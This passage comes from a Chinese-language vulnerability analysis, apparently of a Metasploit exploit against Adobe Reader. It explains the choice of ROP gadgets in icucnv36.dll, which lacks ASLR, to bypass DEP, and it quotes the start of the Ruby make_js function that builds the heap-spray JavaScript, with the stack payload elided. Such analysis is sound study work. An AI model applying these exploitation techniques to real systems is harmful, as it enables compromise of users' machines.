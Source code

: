 ![ROP Flow](images/Vulnerability%20Investigation/rop.png)

>其中的 ROP Gadget 选择了 icucnv36.dll 中的指令，选择这两处地址中的指令的原因在于，如果打开 icucnv36.dll，会发现其 IMAGE_OPTIONAL_HEADER 中的IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE 的值为 0，也就是说这个 dll 库没有开启 ASLR。事实上，在 Adobe Reader 的各个版本上，这个库应该都基于 Adobe 的某种需要而始终没有开启 ASLR。这使得该 exp 对受影响的各版本 Adobe Reader 都能够稳定且兼容地进行漏洞利用

### make_js 函数

既然 ttf 文件中的 payload 是用来跳转到真正的执行 shellcode 的 payload 上的，后者存在的位置也就只能是在 make_js 函数里了。事实上，在审计 exploit ruby 代码时就能够非常容易发现 make_js 函数里存放的大量 payload。接下来审计 make_js 函数

```ruby
    def make_js(encoded_payload)

        #* stack_data 字符串存放了利用 shellcode 所需的 payload
        # The following executes a ret2lib using icucnv36.dll
        # The effect is to bypass DEP and execute the shellcode in an indirect way
        #* stack_data 内容较长下文再审计，此处用 ... 略过
        stack_data = [
            ...
        ].pack('V*')

        var_unescape  = rand_text_alpha(rand(100) + 1)
        var_shellcode = rand_text_alpha(rand(100) + 1)

        var_start     = rand_text_alpha(rand(100) + 1)

        var_s         = 0x10000
        var_c         = rand_text_alpha(rand(100) + 1)
        var_b         = rand_text_alpha(rand(100) + 1)
        var_d         = rand_text_alpha(rand(100) + 1)
        var_3         = rand_text_alpha(rand(100) + 1)
        var_i         = rand_text_alpha(rand(100) + 1)
        var_4         = rand_text_alpha(rand(100) + 1)
```